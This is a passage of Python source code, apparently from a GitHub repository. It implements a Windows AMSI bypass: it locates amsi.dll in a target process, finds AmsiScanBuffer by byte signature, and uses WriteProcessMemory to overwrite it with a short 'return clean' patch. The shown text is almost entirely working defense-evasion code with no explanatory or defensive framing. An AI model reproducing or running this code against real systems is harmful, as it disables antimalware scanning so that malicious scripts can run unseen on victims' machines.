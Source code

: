 ```python
            return baseAddress
        else:
            baseAddress += 1


def writeBuffer(handle, address, buffer):
    nBytes = c_int(0)
    KERNEL32.WriteProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_void_p]
    res = KERNEL32.WriteProcessMemory(handle, address, buffer, len(buffer), byref(nBytes))
    if not res:
        print(f'[-] WriteProcessMemory Error: {KERNEL32.GetLastError()}')
    return res


def getAmsiScanBufferAddress(handle, baseAddress):
    AmsiScanBuffer = (
        b'\x4c\x8b\xdc' +       # mov r11,rsp
        b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
        b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
        b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
        b'\x57' +               # push rdi
        b'\x41\x56' +           # push r14
        b'\x41\x57' +           # push r15
        b'\x48\x83\xec\x70'     # sub rsp,70h
    )
    return readBuffer(handle, baseAddress, AmsiScanBuffer)


def patchAmsiScanBuffer(handle, funcAddress):
    patchPayload = (
        b'\x29\xc0' +           # xor eax,eax
        b'\xc3'                 # ret
    )
    return writeBuffer(handle, funcAddress, patchPayload)


def getAmsiDllBaseAddress(handle, pid):
    MAX_PATH = 260
    MAX_MODULE_NAME32 = 255
    TH32CS_SNAPMODULE = 0x00000008
    class MODULEENTRY32(Structure):
        _fields_ = [ ('dwSize', c_ulong) ,
                    ('th32ModuleID', c_ulong),
                    ('th32ProcessID', c_ulong),
                    ('GlblcntUsage', c_ulong),
                    ('ProccntUsage', c_ulong) ,
                    ('modBaseAddr', c_size_t) ,
                    ('modBaseSize', c_ulong) ,
                    ('hModule', c_void_p) ,
                    ('szModule', c_char * (MAX_MODULE_NAME32+1)),
                    ('szExePath', c_char * MAX_PATH)]

    me32 = MODULEENTRY32()
    me32.dwSize = sizeof(MODULEENTRY32)
    snapshotHandle = KERNEL32.CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid)
    ret = KERNEL32.Module32First(snapshotHandle, pointer(me32))
    while ret:
        if me32.szModule == b'amsi.dll':
            print(f'[+] Found base address of {me32.szModule.decode()}: {hex(me32.modBaseAddr)}')
            KERNEL32.CloseHandle(snapshotHandle)
            return getAmsiScanBufferAddress(handle, me32.modBaseAddr)
        else:
            ret = KERNEL32.Module32Next(snapshotHandle , pointer(me32))
```